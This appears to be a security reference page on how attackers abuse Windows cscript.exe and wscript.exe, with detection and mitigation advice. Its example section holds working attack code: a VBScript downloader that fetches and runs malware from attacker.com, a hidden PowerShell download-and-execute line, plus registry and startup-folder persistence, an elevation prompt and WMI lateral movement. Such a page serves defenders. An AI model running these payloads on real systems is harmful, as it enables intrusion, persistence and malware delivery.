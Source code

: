 # cscript.exe / wscript.exe
## What is it?
*```cscript.exe``` and ```wscript.exe``` are Windows-based scripting engines used to execute scripts written in languages such as **VBScript** or **JScript**.*
*These utilities are typically used for automation tasks, running scripts, or managing system configurations. Both tools can run scripts in the command-line interface (cscript.exe) or in a graphical user interface (wscript.exe). As built-in Windows utilities, they are trusted by the system and often overlooked by security tools.*

## Legitimate Usage
- **Automation of Tasks** → Running scripts to automate system administration tasks such as network configuration or user management.
- **System Diagnostics** → Use scripts to gather system information or perform troubleshooting tasks.
- **Software Installation & Configuration** → Execute installation or setup scripts for software deployment.
- **Batch Operations** → Execute multiple commands or script sequences to perform complex tasks in an efficient manner.

## How to abuse it
- **Bypassing Security Controls** → Because ```cscript.exe``` and ```wscript.exe``` are trusted Windows tools, attackers can use them to bypass application whitelisting or security measures.
- **Persistence** → Attackers can place malicious scripts in startup locations, which will automatically execute when the system starts or the user logs in.
- **Credential Theft** → Attackers can use these tools to steal credentials from the system by running malicious scripts that harvest user input or sensitive information.
- **Command and Control (C2) Communication** → Attackers can leverage scripts to communicate with external C2 servers, exfiltrating data or receiving new commands.
- **Social Engineering** → Malicious scripts executed via ```wscript.exe``` can be embedded in files that trick users into running them, allowing for exploitation.

## Example attacks
### 1. Running Malicious Scripts
*Attackers can use ```cscript.exe``` or ```wscript.exe``` to execute a malicious script that performs various tasks such as downloading malware or stealing data.*

**Execute Malicious PowerShell Script**

```
cscript.exe //nologo malicious.vbs

wscript.exe C:\malicious.vbs

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MaliciousScript /t REG_SZ /d "wscript.exe C:\Users\Public\malicious.vbs"
```

*vbs script*

```
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
Set objADOStream = CreateObject("ADODB.Stream")

objXMLHTTP.Open "GET", "http://attacker.com/malware.exe", False
objXMLHTTP.Send

If objXMLHTTP.Status = 200 Then
    objADOStream.Open
    objADOStream.Type = 1
    objADOStream.Write objXMLHTTP.ResponseBody
    objADOStream.Position = 0
    objADOStream.SaveToFile "C:\Users\Public\malware.exe", 2
    objADOStream.Close
    CreateObject("WScript.Shell").Run "C:\Users\Public\malware.exe"
End If
```

*js script*

```
var shell = new ActiveXObject("WScript.Shell");
shell.run("powershell -NoP -NonI -W Hidden -Exec Bypass -C \"IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/reverse.ps1')\"");
```

```
cscript.exe C:\Users\Public\reverse_shell.js
```

*fileless*

```
wscript.exe /E:vbscript /B "Execute(""msgbox(""aSimpleMessage"")"")"
```

*UAC Bypass via WScript.Shell*

```
Set objShell = CreateObject("Shell.Application")
objShell.ShellExecute "cmd.exe", "/c C:\Users\Public\malware.exe", "", "runas", 1
```

*multi-script.wsf*

```
<job>
    <script language="VBScript">
        WScript.Echo "Running VBScript"
    </script>
    <script language="JScript">
        WScript.Echo("Running JScript");
    </script>
</job>
```

**Effect:**
- Executes a script that downloads and executes a PowerShell payload, bypassing security controls.

### 2. Persistence via Startup
*Attackers can use ```cscript.exe``` or ```wscript.exe``` to run malicious scripts on startup, ensuring persistence even after system reboots.*

**Create Persistent Script via Startup Folder**

```
echo cscript.exe //nologo C:\malicious\payload.vbs >> C:\Users\user\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\malicious.vbs
```

**Effect:**
- Places a script in the startup folder, which ensures the malicious script runs every time the user logs on.

### 3. Exfiltration of Data
*Attackers can use ```cscript.exe``` or ```wscript.exe``` to exfiltrate data by executing scripts that send sensitive files to an external server.*

**Exfiltrate Data via HTTP**

```
cscript.exe //nologo exfiltrate.vbs
```

**Effect:**
- Uses a VBScript to exfiltrate data to a remote server, bypassing traditional file transfer monitoring methods.

### 4. Lateral Movement Using Malicious Scripts
*```cscript.exe``` and ```wscript.exe``` can be used for lateral movement, where attackers copy malicious scripts across the network to other machines.*

**Run Script Remotely via WMI**

```
wmic /node:192.168.1.50 process call create "cscript.exe //nologo C:\malicious\payload.vbs"
```

**Effect:**
- Executes a malicious script on a remote machine via Windows Management Instrumentation (WMI), potentially spreading malware.

### 5. Social Engineering via Malicious Scripts
*Attackers can use ```wscript.exe``` to run scripts that appear benign to users but actually perform malicious actions.*

**Embed Malicious Script in a Document**

```
wscript.exe C:\Documents\malicious_script.vbs
```

**Effect:**
- Executes a malicious script that can harvest user credentials or install malware when the document is opened.

# Detection & Mitigation
## Detection Methods
**Monitor Script Execution**
- **Event ID 4688 (New Process Creation)** → Detect ```cscript.exe``` or ```wscript.exe``` running from unusual or suspicious locations.
- **Look for Suspicious Scripts** → Monitor for scripts being executed from non-standard directories, like temporary folders or user profiles.

**File Integrity Monitoring**
- **Check for Unexpected Script Changes** → Watch for modifications to known scripts or scripts being placed in sensitive locations.

**Network Monitoring**
- **Detect Unauthorized HTTP Requests** → Monitor for unauthorized outbound HTTP traffic that may indicate data exfiltration via script.

## Mitigation Strategies
- **Application Whitelisting** → Use application control to block the execution of scripts or restrict script execution to trusted paths.
- **Restrict User Privileges** → Limit the ability of users to execute scripts using ```cscript.exe``` or ```wscript.exe``` by applying least privilege access controls.
- **Script Block Logging** → Use security tools to block known malicious scripts and log their execution to identify malicious activity.
- **Disable Windows Script Host** → In environments where scripts are not needed, disable the Windows Script Host feature to prevent the execution of scripts.


wscript.exe C:\Users\Public\malicious.wsf
```
